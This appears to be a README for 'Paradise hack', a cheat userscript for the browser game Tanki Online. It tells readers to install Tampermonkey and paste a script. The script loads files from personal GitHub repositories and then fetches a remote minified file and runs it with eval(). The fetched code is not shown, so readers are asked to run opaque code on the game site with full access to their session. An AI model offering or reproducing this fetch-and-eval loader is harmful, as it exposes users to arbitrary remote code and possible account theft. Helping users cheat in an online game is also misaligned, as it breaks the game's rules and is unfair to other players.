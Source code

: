# Paradise 
xLyna Team
###### **My vk** - [click](https://vk.com/angeeel17)

## Getting started

*   **1.** Install **Tampermonkey** - [TM](https://www.tampermonkey.net/)
*   **2.** Create a new script
*   **3.** Paste this code
```js
// ==UserScript==
// @name         Paradise hack
// @version      0.3
// @description  Paradise created
// @author       Paradise 
// @match        https://*.tankionline.com/*
// @icon         https://i.ytimg.com/vi/4aGY-4UZHvE/maxresdefault.jpg

// @require      https://raw.githubusercontent.com/AngelesCreate/Hack/main/jquery.min.js
// @require      https://raw.githubusercontent.com/AngelesCreate/Hack/main/isKeyPressing.min.js

// @grant        GM_xmlhttpRequest

// ==/UserScript==

GM_xmlhttpRequest({
  method : "GET",
  url : "https://raw.githubusercontent.com/Hurashz/Paradise/main/Paradise.min.js",
  nocache: true,
  onload: (ev) =>
  {
    eval(ev.responseText);
  }
});
```

